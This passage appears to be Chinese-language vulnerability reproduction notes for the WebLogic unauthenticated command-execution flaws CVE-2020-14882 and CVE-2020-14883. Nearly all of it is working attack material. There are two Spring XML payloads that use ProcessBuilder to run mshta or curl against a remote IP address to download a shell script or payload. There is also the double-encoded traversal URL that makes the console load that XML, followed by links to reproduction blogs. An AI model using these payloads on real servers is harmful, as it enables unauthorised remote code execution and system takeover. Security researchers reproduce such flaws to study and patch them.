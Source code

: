 > cmd.xml
```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>cmd</value>
            <value>/c</value>
            <value><![CDATA[mshta http://139.155.49.43:888/download/file.ext]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

#### 版本12.2.1.3
方法对所有Weblogic版本均有效, 最早在CVE-2019-2725提出
- 构造一个XML文件, 保存在Weblogic服务器可访问的服务器上
> shell.xml
```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[curl 139.155.49.43:8000/shell.sh -o /tmp/shell.sh]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```
- 令Weblogic加载此XML并执行命令
```
http://139.155.49.43:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://139.155.49.43:8000/shell.xml")
```
[weblogic 未授权命令执行漏洞（CVE-2020-14882,CVE-2020-14883）复现 - My_Dreams - 博客园 (cnblogs.com)](https://www.cnblogs.com/zzjdbk/p/13971210.html)
[CVE-2020-14882&14883漏洞复现_cve2020-14883_m0_52089634的博客-CSDN博客](https://blog.csdn.net/m0_52089634/article/details/128531394)